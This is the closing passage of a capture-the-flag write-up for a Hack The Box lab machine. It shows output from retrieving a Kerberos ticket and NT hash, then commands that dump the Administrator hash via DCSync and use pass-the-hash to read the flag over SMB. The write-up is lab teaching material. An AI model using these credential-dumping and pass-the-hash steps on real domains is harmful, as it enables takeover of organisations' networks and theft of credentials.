[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'p.adams.ccache'
[*] Trying to retrieve NT hash for 'p.adams'
[*] Got hash for 'p.adams@scepter.htb': aad3b435b51404eeaad3b435b51404ee:1b...e0
```


Finnaly, just DCSync, retrieve the admin hash and grab the flag

```bash
➜ export KRB5CCNAME=p.adams.ccache

➜ nxc smb scepter.htb --use-kcache --ntds --user Administrator

➜ smbclient.py scepter.htb/'Administrator'@10.129.28.117 -hashes :'a2...c4'

Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Type help for list of commands
# use C$
# cat Users/Administrator/Desktop/root.txt
```


If you have any questions, you can dm me on [twitter](https://x.com/ethicxz) or on discord at : 'ethicxz.'